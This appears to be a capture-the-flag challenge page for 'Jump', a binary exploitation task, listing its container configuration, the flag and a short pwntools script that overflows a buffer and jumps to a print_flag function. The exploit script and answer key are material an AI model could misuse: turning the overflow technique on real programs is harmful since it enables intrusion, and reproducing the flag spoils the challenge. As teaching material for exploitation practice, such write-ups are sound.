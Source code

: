 # Jump

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Binary Exploitation | Medium | 300 |

call มันสิ

Format: `CSUBRU{...}`

---

## Configuration

| Name | Value |
| :- | :- |
| Title | Jump |
| Type | Dynamic Container |
| Category | Binary Exploitation |
| Max Attempts Allowed | unlimited |
| Blood Bonus | Enable |
| Container Image | ic-jump |
| Service Port | 1337 |
| CPU Limit (0.1 CPUs) | 1 |
| Memory Limit (MB) | 64 |
| Storage Limit (MB) | 128 |

### Attachments

- `jump.zip`

### Flags

- `CSUBRU{ROP_51n4h_G0d_n07_h4rd_n4_[TEAM_HASH]}`

---

## Analysis

ROP

```py
from pwn import *
context.binary = elf = ELF('./jump', checksec=False)
offset = 120
rop = ROP(elf)
payload = flat(
    b'A'*offset,
    p64(rop.find_gadget(['ret'])[0]),
    p64(elf.symbols['print_flag'])
)
p = process(elf.path)
p.sendlineafter(b'Enter your name:', payload)
print(p.recvall().decode(errors='ignore'))
```
